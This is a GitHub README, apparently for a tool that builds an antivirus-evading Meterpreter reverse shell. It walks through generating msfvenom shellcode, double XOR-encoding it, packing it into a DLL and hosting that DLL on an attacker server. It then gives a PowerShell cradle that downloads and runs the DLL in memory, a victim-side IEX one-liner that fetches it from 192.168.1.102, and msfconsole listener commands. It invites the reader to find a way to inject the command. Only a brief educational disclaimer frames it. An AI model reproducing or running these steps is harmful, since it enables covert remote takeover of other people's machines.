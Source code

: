 # RS_meterpreter_bypass
Get a Meterpreter reverse_tcp shell bypassing AV.
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.
        
- Generate your payload **#1**
- XOR encode your shell script  **#2**
- Create a DLL to inject into memory **#3**
- Create a Powershell script to download and execute the DLL in memory **#4**

# How to use
**#1** Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

**#2** Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version

Execute the exe with:
        
        .\XOR_encoder.exe

Take note of the output, it is your new double-encoded payload.

We have now a double XOR-encoded shellcode.

**#3** To actually bypass AV we will need a .dll to run in memory, not in disk. 

We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.

The output will be ClassLibrary1.dll, the payload.

Now we have the .dll, we can host it in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

        service apache2 start

**#4** Now we just need to execute the .dll in memory, so we do a .ps1 script to do that, we can name it *download_cradle.ps1* also also this needs to be placed in /var/www/html:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function of [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs).

## Victim machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:

        > msfconsole
        > use exploit/multi/handler
        > set payload windows/x64/meterpreter/reverse_tcp
        > set LHOST 192.168.1.102
        > set LPORT 4444
        > exploit

Or we can use this shortcut:

        msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.102; set lport 4444; set ExitOnSession false; exploit -j"

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Credits
- purpl3f0x

# Disclaimer
All the techniques provided here are solely meant for educational purposes only. All of the techniques taught here are only meant to be used in a closed laboratory environment or in consent with a second party.
